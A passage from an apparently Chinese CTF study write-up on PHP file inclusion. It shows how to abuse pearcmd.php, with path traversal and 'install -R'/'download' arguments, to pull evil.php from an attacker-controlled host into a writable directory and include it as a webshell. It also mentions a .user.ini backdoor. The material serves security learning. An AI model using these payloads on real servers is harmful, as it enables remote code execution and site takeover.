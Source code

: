 我们就可以做到任意文件下载从而getshell；前面也提到register_argc_argv继续PHP_IN_PREDIR，我们可以留一个.user.ini的后门来设置register_argc_agrv为On

**payload**就是这样了

```
// 存在 include $_GET['f'].php
// web目录可写
- http://ip:port/include.php?f=/../../../../../../../../../../usr/local/lib/php/pearcmd&+install+-R+/var/www/html+http://ip:port/evil.php
- http://ip:port/tmp/pear/download/evil.php
// tmp目录可写
- http://ip:port/include.php?f=/../../../../../../../../../../usr/local/lib/php/pearcmd&+install+-R+/tmp+http://ip:port/evil.php
- http://ip:port/include.php?f=/tmp/pear/download/evil
```

首先要包含一个正确位置的pearcmd.php（通常在/usr/local/lib/php/pearcmd.php），接着包含&+download+http://your_vps/eval.php（或者如果前面直接是/pearcmd.php的话就可以直接给参数了/pearcmd.php+download+http://your_vps/eval.php）来装🐎（注意路径是否正确），之后再包含我们的🐎即可

### 其它的例题

[[CampCTF 2015] Trolol](https://web.archive.org/web/20201022203937/https://khack40.info/camp-ctf-2015-trolol-web-write-up/)

[[巅峰极客 2020] MeowWord](https://www.lemonprefect.cn/zh-tw/posts/9b2fbf24#MeowWorld)

[[RCTF 2021] VerySafe](https://blog.rois.io/2021/rctf-2021-official-writeup-2/)

------

还是做的题不够多，已有的知识也应用的不够熟练，实在是太太太太太菜了，得好好学，不能天天划水摸鱼
